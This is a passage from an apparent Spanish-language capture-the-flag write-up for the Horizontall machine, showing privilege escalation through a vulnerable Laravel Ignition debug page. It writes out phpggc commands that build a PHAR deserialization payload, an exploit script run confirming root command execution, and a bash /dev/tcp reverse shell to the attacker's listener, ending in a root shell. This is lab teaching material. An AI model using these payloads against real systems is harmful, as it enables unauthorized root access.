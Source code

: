 Realizaremos la explotación, crearemos un payload malicioso llamado `exploit.phar` que ejecute el comando `id`.

Al realizar la explotación de la vulnerabilidad sobre el `Laravel` vulnerable, nos encontramos que hemos podido ejecutar comandos arbitrarios y el usuario que ejecuta estos comandos es el usuario `root`.

Con lo cual, tenemos una gran vía potencial de ejecutar comandos como `sudo` y poder obtener acceso como `root` en el equipo.

{% hint style="info" %}
Deberemos de disponer instalado  [phpgcc](https://github.com/ambionics/phpggc). PHPGGC es una biblioteca de cargas útiles PHP unserialize() junto con una herramienta para generarlas, desde la línea de comandos o mediante programación.
{% endhint %}

```bash
❯ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id

❯ python3 laravel-ignition-rce.py http://localhost:8000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Nos pondremos en escucha con `nc`para recibir la conexión remota.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Crearemos un nuevo archivo `exploit.phar` que ejecute como comando una Reverse Shell. Ejecutaremos el exploit sobre el `Laravel` vulnerable.

```bash
❯ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'"
❯ python3 laravel-ignition-rce.py http://localhost:8000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```

Verificamos que finalmente logramos obtener acceso al sistema como usuario `root`y podemos visualziar la flag **root.txt**

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.105] 49394
bash: cannot set terminal process group (4676): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# cat /root/root.txt
cat /root/root.txt
2bdca812*************************
```
